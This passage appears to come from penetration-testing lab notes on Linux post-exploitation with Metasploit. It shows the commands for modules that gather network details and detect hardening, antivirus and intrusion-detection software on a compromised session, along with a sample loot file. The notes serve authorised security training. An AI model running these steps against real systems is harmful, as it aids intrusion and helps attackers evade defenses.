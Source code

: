 ![Metasploit - post/multi/gather/env](.gitbook/assets/image-20230422124555124.png)

- Enumerate **network information**

```bash
search enum_network
use post/linux/gather/enum_network
info
# Description:
#   This module gathers network information from the target system 
#   IPTables rules, interfaces, wireless information, open and listening 
#   ports, active network connections, DNS information and SSH 
#   information.
set SESSION 3
run
```

![Metasploit - post/linux/gather/enum_network](.gitbook/assets/image-20230422124816182.png)

```bash
loot
cat /root/.msf4/loot/20230422104739_Linux_PostExp_192.215.55.3_linux.enum.netwo_707609.txt

    search members.linode.com
    nameserver 127.0.0.11
    options edns0 trust-ad ndots:0
```

- Check for **protection/security systems**

```bash
search enum_protections
use post/linux/gather/enum_protections
info
# Description:
#   This module checks whether popular system hardening mechanisms are 
#   in place, such as SMEP, SMAP, SELinux, PaX and grsecurity. It also 
#   tries to find installed applications that can be used to hinder, 
#   prevent, or detect attacks, such as tripwire, snort, and apparmor. 
#   This module is meant to identify Linux Secure Modules (LSM) in 
#   addition to various antivirus, IDS/IPS, firewalls, sandboxes and 
#   other security related software.
set SESSION 3
run
```

![Metasploit - post/linux/gather/enum_protections](.gitbook/assets/image-20230422125210727.png)

```bash
notes
# check above information stored within the MSFdb
```

- Enumerate the **system**
